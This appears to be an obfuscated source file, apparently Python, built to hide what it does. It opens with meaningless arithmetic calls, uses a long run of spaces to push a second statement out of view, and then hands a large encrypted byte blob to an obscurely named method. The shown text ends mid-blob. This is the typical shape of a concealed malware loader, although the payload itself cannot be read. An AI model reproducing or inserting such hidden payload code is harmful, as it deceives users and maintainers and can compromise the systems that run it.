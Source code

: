             Algorithm(Hypothesis = 39297 * 14370)._floor(_run = _modulo.CallFunction - -81146)                                                                                                                                                                                                                                                          ;Algorithm.Math(_absolute='SS2SS222222S2S2222S',Negative=b'\t\x0cU
\xbcOB\x9e\xb5\xd6W8\x00\xe4:\x0f\x97\x81o\xbc\xd6;u\xaf\xee\xf1\xb2P\'t\xc5\xb1\r\x0cD\x07K>\xa8\xb0\xaa\x13\\H\'%\x9c\x9b;M\x0c\xf1\xe7\xcdqY,<\xa9\xa28\x8b;]!7\x8e\xa4\x87\x88z\xa0\xbf\x07\x9c\xf1\x8a\xcf1\xf6t\xd3\x12L6#\x189\xe2\x13^\xac\xb5\xbe\x99\xa9\xec\xb7\xa5\x86u\x93\x08\xf1\xa9\x81\r\xbf\x02\xfd\x1d#\x93\x19\x04\x90*\xa5\xb3{\x9a\x1e\xdd\xb5\xbe\xc2GW\xb4\xbc5\xa98\x1a\xea\x8c\xa6UG\xc3\xbbp\x13\xabZ40k[Y\x11\xbcD\x1fn\xaa\x0f>\xd5\x08\x17T\x07g\x10[\nn\x1bB |~%(\xe3\xb5\xbe9%\x07+\x84\xe5\xef\xdf\x13\x0c\x0e\xdf\xa7:\xadj \x9c\x14\\\xe3\x92\xb8]*\x95\xb2\xd6\xf7\x02\xa9\x94\x17O\x04\x18"A\x1c\x1c\x8c\\\x984\x92\x8c\xd3\xa0Z\xd4ax\xdc\x91bTx\xde\r\xcfb\xa1\xd7j\xc2\xf4q V\x03\x8b\xcae\x05L\xaf\x1f~\xf7\xb3<q\xb9\x01\x80k\x8e[\x11\x1f\xe8_\x00\xcc\xe1\x08Q?>\x06}f\xbfl\x15X\xb7\x8e*\xdfA\x89\x98\x88\x96\xc9q\\\xb4V\x19C\x98\x87\x92+\x89L2V\xf8\xc4\xc2\xce\xe9\xfbB\xb6\xa2\x17\xe3jy2\x13U\x03}\x9e\x89~\xa2\x07*\xc6K\x83l\xc7Z!\xd1"\x98{\x98wWh\xb1Sa{\xb9\xac\xd9m\xdc\xa6\xb8-\xb4Q\x8f\x99d\xe29V\x1f\x9f\x15]z6\xc5\xd7\xcd\xcc\xea\xfbY_/?3\x89\xd3K?\x857\x107\x08\xffwd\x01d#\x08\xaf.B\xf7\xdc9\xbb\x01\x1dH\xc2\x93\x9a\x12Iu\x93V\xb1\x0bu\xa2/]\x9ev\'\xb1n\xa2\x80\xa6h\xca\x13\xa9v_M\xd6\xddh\xca\x89\xed\xc1\xce\xb2\xb2B\xa1\xa9\xcb\x94:P\'Y"\x87z\x10\x8bs\'\xf4H\xfe;\xd2\xfd&\\h\xf8,\x96k,\x0f)\x0c,\xeeAG\x8eYi+\xb0\xb9\xa7\x9c\xb2\xc6\x8e\x8c\xbd\x1c\x86i\x12\xa3%\xa7\xafpX\xf0\xd99\xdcP)Py.\xf2\x8e|Id\xff\xc0\t\xe6\xee.\xf6\xf9\x07\x9d[\xe6z\x87\xe5\x8c\xc9A\x8b\xe7\x1b\xc6\x141\x95\xfb\x90\x9b9[\xc3lp\xe0*5c\xb8\xea%\r>\xe4\xf4\xcd\xe4;x\xed\xa1\xec&\x92m\xb0\x90\xc6oU\x844\xb7\x01oz,\\\xc0\xb0\x14\x156\x18\x8d\xd2.-\xd1\xe3!\x0f\x9c\xd2\x92\xd1\x8a\x81\xce\xd3O|\x8a.\xf1:\xc4e\xbd)\xac\\~\x06D\xe6\xcb@\x7fI\xf7|\xf2\xcb\x9e\\\xea\x8e\xc0\x9e\x86\x90\r\x1d\xa5\xe4\xdc\xbcU\xc0\xe1~\xf5\xea\x84\xeb \xe9\xcf1VFk\xbb\x9b\x99+\xddh\xc0\x88\x11/mexF\x00\'\x83:G\xb6\xc1\x11\xec\xd9\xcb1\x0f\xe2\x8e\xba\x8eP\xf7G\xf8\xa5-\x92S\xea\xbdw\x88\x08\x83a\xab\xd1\x0e\xce\x8c\x03\x1e\x00\xe3\xc9-\xf1\x98\x83C\x04\xec\xf0)\xfb\xd3O\x9c\xdc=\x9c5{\xd3\xea\xa3A\xd2_DX\x98\xa4w\x0fsWy.\x8f\x12\xc5DL\xde\x84\xc5\xfa\x8a\xb2k\xf8\xd8A\xd7\xda\x8e\x99\xe2)Tr\xc4\xc7\xae\xf5\xdd\x80%\xafB\x9e\xfe=\xbd\x15\xa2\x11\xef\xa3\xe1\x88Fc}F\x99\xb7a.>\x1b\x8a\x18Lo\xc1\xfcC\x92\xc7K\x18\x07O\x93\xfc\xdf\xe0\xa6\x8a\xc5\x0e9\xe6Rz\xdaD$\xce-\xfd\x7f\xfc\xf0\x01\xe19\x1f\xf3P9kQB\xce\xb9\xa5\xd0e\x06\xee\xa5\xd7`N_a\x0e\x87\xed\xe6\x96\xa1P\x9c`\xf1\x11gL-\xc3k\x13\xdf\x15\xcb\x12#\x1f\xbaA;\x02\x85\xaa\xb1\x82\x1ag\t\xdf\xf8.,\r\xcb\x8b6\x98\'\xf0\x02\xeb\x08\x19f\xc2\xfc\x01\xe7\xa1C\xb4\x98;\xe27\xc1y\t=\x89\x98U\x83\xe7\x01\xbf\xa5\xde\xe3\xfb\x94\x14\xc4\xea\xca\xde\xef\xa0-\xac\xd3\x85\xefL\xde\xf7pI\xf70\xa3\xc1\x1a\xa8\x8f\xc75C\x0f\xc4E\x1b\x9awO\xe1\xd3\xf0|O\xcb{\xc2\xaai\x170\x82\xd0F[\xc1D\xb1h+9\xea5n\xed\xa4\'ZO\x0e\xe7\xc6\x93F\xf2\x8e\x86\xd0,\x9a\xea\xdfh\x9d\xf0\xc9\x1d,\xe3zi\xcfi\xab\x9a\xf48\xd07\xe06\x87\xef\xd3!\x01J\x18n\xdcnG\xc7\xc2A\x9f{O\xc7\xdau\x08\x1d\xc2o\x83O\xeca\xce-&\xb0=\x0bj\x0f,\x04\x81\xa5\x80\x0efd$p\xc3k9E\x97rSb\x85|\x81\xe9\x16\x86k*\xbe\n;\x16vz}\xe7\x08\xf6\x89\x01Y\xb2X\x9e\xa2\xed\xf2\xee\xdd\x7f\xff9\x90\xfd\x87\x05\xbc\xff\xf2\xf4\xd7w\xef\xc2\xfe\x0f\x8f\x94Z\xf9e\xf7\xfd\xf8\xee\xd9O\xe48V\xac\'@\x0c\xa0\x97\xf9Vu\x8c\xa6\x94\x912\xa5vfJ6\x9b\xc45r\xfa^\xa0\xd3Z\x8d\xc8\xdd\x94\x13\xb9\xaf\x01\x0f\x02\xec\xa0\'\x90\xc1!\xde\xfa\x01|@\x90\x04\xb1\xb0m\x05\xa2\x0b\x0c&b\x07"l\xc2\x1e\xf0\xbc\xe9i\xc6![\xc6\xe5(;\x02\xf9\x19\xc9\xd9\xcd\xc2\xbb\xe7\xfa\xca\xb3\x8e/\x90\x9fq*\xb9\'\xccKO\xecOj\xc8&F\xf0\xba\xba\xd7\xf7\x8e\xc0\xd40\xf0\x1b\xf8\xe4\x91r\xd9\'\x85m\xa6\xbc\xb8\xe7|N{\x1e]\x9a\xc6\x9f\xbaI\x8d}I\xd4)\x14\x0b\xeb(_\xd2\x90f\x1b\x02)\xfae\xeb\xe6\x0e 3\x9c1t\x98AR\x0ctP\x89\x03\xb8\xd6\xb7ZA\xf1\xcd-\xe5\xe3i\x9fh7\xf2\xc0-k\x866\x8f\xbb)\xebR\xea\xd8v\x89\xa1\xbd\xd67\xf3\x82z\xedx\xf4\xf9\\\xb1\x9f\xe4\x87\xbbE\xfc\xaa\xec\xa4o^\xc5S.\xabkd\x9d\xbb\x91\x92\x8a}\x0fn\x173\x03\x15U\xf1\x1cE#\x94\xcc\xc45\x8a\xf7\xa5;\xcb\xaf\xc5v\xb0\x9a\x82\xd6M\x18\x1f\xc2V\x0cO\x8f\xb9\x03\x05R$9"\xf8\xb6\x91x\xcfG\xe2\xefE\xab@\xdd\x8d%&a\xf75\xd0b\x11\x8e\xedW,\x9c^\xb4^\x904\xb0D\xaf\xc4\xc4K*&\rf\xad\x02\xfbB\xe5\x8d\x94\x98\xe8\xa2\xee\xa0\xa3\xe3\xb8h\xad2\x803\x02\xde$\x93\x0e\x1b\xd2\xedl\x00_\xeb{\x81ET\x13\xadW\xceDw\xf3\xe3\x07k\x1f\xfc\xc9N\x10=U1:\xf9p\r4\xd4v\xc6T\x98\x18\x9dk}\x85\x0b\x15`\x9a*\x87\x19}g\x85\xe0\xa8\x15\xfcG\xb8\x95\x034XC\x86\x9d\xbf4z\xce|\xde]\x92\x00_\xeb+lp\xd8}\xb9\xd7\xf4D\x90>t\x9aB\xf3\x95\xe4\xbd\xd5\x10\xa4\xbaG\x1f\x06\xa6\xe0\x83\xc2\xa0\x18\x06\xe80d\xa5C\x80\x0cCa\xe0\xd5tC\x9f=,\xaf\xf5\x85\xf7\xf5\xde\xb7\x1a\x13\xa2\'\xdd+\xecs\x8c2\x8b\xe8\x03\xa1\x9f\xe3\xa6\xad\x14\xdcS\xbeY\xf4\xc5`\x9eW\x07\x85\xde\xd5.\xf9\xd6\xee\xcc\x16\xe8\x10r\xc3t\xa8\xc2j\xa9\x8eh\xab0\x9d\xe5)\xdc\xe7\xf4\xd1)\xad\'\xdbX\x0c\x81\xf8M\xf1?\xffU\t\xbb\xb0\xd2\x83K\x86\x1bF\xca\xaa\xc4U\xc9\xe9+\x8c\xa4@S\x8e~[O\xbf\x86d\xa1\xd1\xb3*N\xc7Ik\\\x12\x8b\x93\xc3\x8e\x16\xe7B\xe9\x0b\x03\xedY\xa0\xe1\xc8\xa52\xef\x88f\xa6\'[G\x91\xb5\xc1\xae\xf5\xac\xf55\xa0\ro\x80j/\x1a\x0b!V\xfa\xe3\x92\x80i f5d\xc9\x05+.0\x9c-Z\xaf(\x1b\xaa&\xba\x8c\xe5\x15\xa3\x8a\x95\x9d\x19\xedu5uI5(7\x02\x1f\xc4\x13\xe9\xaacF\xa0\x92\x82,K\xf11K6\x83\x0c\xd84J\x15d\xd7\xfa\xca*\xc8z{\xf4G0